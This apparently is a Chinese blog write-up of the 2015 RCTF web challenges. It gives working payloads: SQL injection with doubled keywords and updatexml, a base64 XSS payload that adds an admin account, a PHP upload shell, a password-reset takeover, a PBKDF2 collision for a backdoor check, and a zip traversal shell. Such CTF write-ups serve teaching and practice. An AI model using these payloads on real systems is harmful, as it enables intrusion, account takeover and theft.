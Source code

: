 ```yaml
---
layout: post
title: RCTF-writeup[web]
tags: [writeup]
date: 2015-11-17 09:34:39
---
```


**upload**
看起来是一个上传题，其实这是一个注入题。在文件名的地方存在注入。因为注入点是insert的，如果直接进行报错注入或者延时注入的话会提示sqlinject find。我们可以利用二次注入，来得到数据。通过fuzz发现，在进行insert操作的时候有三个列，所以构造

```
文件名','uid','uid'),((database()),'uid','uid')#.jpg
```
就可以看到回显的数据，然后通过走流程就可以查询出flag，但是有一点要注意题目直接把select from 这些关键字过滤了两次所以得构造这样的selselectect才行。


**weeeeeb3**

先注册一个帐号，然后找回密码，输入正确的信息。到第二步提示修改新的密码的时候，直接抓包把用户名修改为admin。然后就可以登陆admin这个帐号，然后在manage页面提示 not allow ip 我们把xxf改为127.0.0.1就可以绕过。然后要我们猜action 由于是filemanage就直接猜action＝upload 然后就出现一个上传页面，通过一轮fuzz，直接上传一个图片马，在后面写上

```
<script lanaguage="php"> phpinfo()</script>
```
把后缀改为php5 就成功拿到了flag。


**xss**
这是一个留言板，通过fuzz发现过滤了很多标签，除此之外还把on事件直接给过滤了。后面测试发现可以使用link标签，然后使用sctf里面那种方法就可以弹框了。

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdD5kZWxldGUgYWxlcnQ7YWxlcnQoIkhlbGxvIik7PC9zY3JpcHQ+">
```
![xss-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1170534972.jpg)

查看页面的html源码发现

```
<!--only for admin
<form action="" method="post">
username:<input type="text" name="name"><br />
password:<input type="password" name="pass"><br />
<input type="radio" name="isadmin" value="0">user
<input type="radio" name="isadmin" value="1">admin<br />
<input type="hidden" name="token" value="34a1615ff3eaf616f7fa205a12792d27">
<input type="submit" name="adduser" value="adduser">
</form>-->
```
很明显啦，就是要添加一个管理帐号帐号，发现页面使用啦jquery直接添加帐号就行。

```javascript
<script src=http://180.76.178.54:8004/4b79f5d4860384d4ac494ad91f5313b7/js/jquery.js></script>
<script>
$.ajax({
                               type: "post",
                               url: "",
                               data: "name=tomato123&pass=tomato123&isadmin=1&adduser=adduser&token="+$("input[name=token]").val()})
</script>
```

然后构造payload

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovLzE4MC43Ni4xNzguNTQ6ODAwNC80Yjc5ZjVkNDg2MDM4NGQ0YWM0OTRhZDkxZjUzMTNiNy9qcy9qcXVlcnkuanM+PC9zY3JpcHQ+CjxzY3JpcHQ+CiQuYWpheCh7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB0eXBlOiAicG9zdCIsCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB1cmw6ICIiLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgZGF0YTogIm5hbWU9dG9tYXRvMTIzJnBhc3M9dG9tYXRvMTIzJmlzYWRtaW49MSZhZGR1c2VyPWFkZHVzZXImdG9rZW49IiskKCJpbnB1dFtuYW1lPXRva2VuXSIpLnZhbCgpfSkKPC9zY3JpcHQ+">
```
添加了一个帐号密码为tomato123的管理员
访问admin.php拿到flag
![xss－2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-545225687.jpg)




**easysql**
注册一个aaa\然后在修改密码的页面可以发现报错

![easysql-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2913177276.jpg)

可以看到是双引号，这明显是一个二次注入，然后重新构造语句发现不能含有空格。但是这并不影响，直接用括号代替就行了。

![easysql-2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-157009057.jpg)

然后爆出一个flag表，查询提示说flag not here，然后去查users里面的列名发现

![easysql－3.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3268258668.jpg)

然后直接去查询里面的内容，发现只能出现RCTF这几个字符，然后就一直在纠结怎么查询，因为测试发现把substring left，right，reverse like 这些都拦截了。后面灵机一动想到了regexp。

```
username=tomato"||updatexml(0x7c,concat((select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^R'))),1)#&password=tomato&email=tomato
```
然后成功搞定

![easysql－4.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1387239513.jpg)


**login**
第二天给了提示说是nosql，那就猜是mongodb
![login-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3330162428.jpg)

那就开始跑密码了。![login－2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3255963769.jpg)

跑出的帐号密码为

```
ROIS_ADMIN  pas5woRd_i5_45e2884c4e5b9df49c747e1d
```
然后登陆一发。
![login-3.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-460039838.jpg)

下载备份文件，发现是一个php的解压zip的类，然后百度找到官方提供的，在diff一下

![login-4.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1149569489.jpg)


还在html源码里面发现

```php
$Agent = $_SERVER['HTTP_USER_AGENT'];
$backDoor = $_COOKIE['backdoor'];
$msg = json_encode("no privilege");
$iterations = 1000;
$salt = "roisctf";
$alg = "sha1";
$keylen = "20";
if ($Agent == $backDoor || strlen($Agent) != 65) {
    exit($msg);
}
if (substr($Agent,0,23) != "rois_special_user_agent") {
    exit($msg);
}
if (pbkdf2($alg, $Agent, $salt, $iterations, $keylen) != pbkdf2($alg, $backDoor, $salt, $iterations, $keylen)) {
    exit($msg);
}
```
测试发现直接上传zip提示没有权限，然后只有过了上面三个条件才行。主要是第三个条件不好过，然后google一发
pdkdf2 ctf 

![2664205826](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2664205826.jpg)

找到了这个 PBKDF2+HMAC collision
然后在https://mathiasbynens.be/notes/pbkdf2-hmac
这篇文章里面说到这个是可以碰撞的，就是不同的明文会出现相同的密文，然后用里面提供的脚本跑一发。成功跑出来一个

```
rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd

3-Rfm^Bq;ZZAcl]mS&eE
```
然后改一下ua，在cookie里面添加backdoor就可以成功上传了。

![2009859300](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2009859300.jpg)

按照解压出来的文件的命名规则为md5(文件名＋RoisFighting).文件的后缀
但是访问http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/051ee28a1964f9f2779d32f2e48212cb/70d08f9380da3a6e0440b3266a2a39f6.php![2977300730](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2977300730.jpg)

文件并不存在，测试发现在解压后会直接删除文件，所以我们可以尝试构造一个解压到上级目录的shell



![login-7.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2977300730.jpg)

shell地址就是
http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/382aef24b11f8c5222bc58062a9bf5c7.php


  [1]: http://bl4ck.in/usr/uploads/2015/11/1170534972.jpg
  [2]: http://bl4ck.in/usr/uploads/2015/11/545225687.jpg
  [3]: http://bl4ck.in/usr/uploads/2015/11/2913177276.jpg
  [4]: http://bl4ck.in/usr/uploads/2015/11/157009057.jpg
  [5]: http://bl4ck.in/usr/uploads/2015/11/3268258668.jpg
  [6]: http://bl4ck.in/usr/uploads/2015/11/1387239513.jpg
  [7]: http://bl4ck.in/usr/uploads/2015/11/3330162428.jpg
  [8]: http://bl4ck.in/usr/uploads/2015/11/3255963769.jpg
  [9]: http://bl4ck.in/usr/uploads/2015/11/460039838.jpg
  [10]: http://bl4ck.in/usr/uploads/2015/11/1149569489.jpg
  [11]: http://bl4ck.in/usr/uploads/2015/11/2664205826.jpg
  [12]: http://bl4ck.in/usr/uploads/2015/11/2009859300.jpg
  [13]: http://bl4ck.in/usr/uploads/2015/11/2977300730.jpg

